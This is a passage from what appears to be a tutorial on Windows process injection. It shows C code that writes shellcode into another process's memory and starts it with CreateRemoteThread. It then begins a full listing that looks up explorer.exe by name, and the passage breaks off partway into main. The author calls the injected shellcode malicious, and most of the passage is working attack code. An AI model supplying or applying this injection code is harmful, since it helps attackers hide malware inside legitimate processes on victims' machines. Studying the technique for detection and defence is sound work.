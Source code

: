 The last part is to write the actual shellcode inside the space we reserved and to create a separate thread to run our malicious shellcode.

```
if(WriteProcessMemory(process_handle, (LPVOID)pointer_after_allocated, (LPCVOID)code, sizeof(code), 0)){
		puts("[+]Happened\n");
		puts("[+]Running the code as new thread !\n");
		CreateRemoteThread(process_handle, NULL, 100,(LPTHREAD_START_ROUTINE)pointer_after_allocated, NULL, NULL, 0); 
}else{
		puts("Not Happened\n");
}
```

The full code:

```
#include <windows.h>
#include <sys/types.h>
#include <unistd.h>
#include <tlhelp32.h>
DWORD ProcId = 0;

int GetProcId(char* ProcName)
{
	PROCESSENTRY32 pe32;
	HANDLE hSnapshot = NULL;
	pe32.dwSize = sizeof( PROCESSENTRY32 );
	hSnapshot = CreateToolhelp32Snapshot( TH32CS_SNAPPROCESS, 0 );
	if ( Process32First( hSnapshot, &pe32 ) )
	{
		do{
			if( strcmp( pe32.szExeFile, ProcName ) == 0 )
				break;
		}while( Process32Next( hSnapshot, &pe32 ) );
	}

	if( hSnapshot != INVALID_HANDLE_VALUE )
		CloseHandle( hSnapshot );

	ProcId = pe32.th32ProcessID;
	return ProcId;
}


int main(int argc, char **argv){

	int process_id;	
	char* ProcName;
	ProcName = "explorer.exe";
	process_id = GetProcId(ProcName);
	printf("Process ID is %d\n", process_id);

```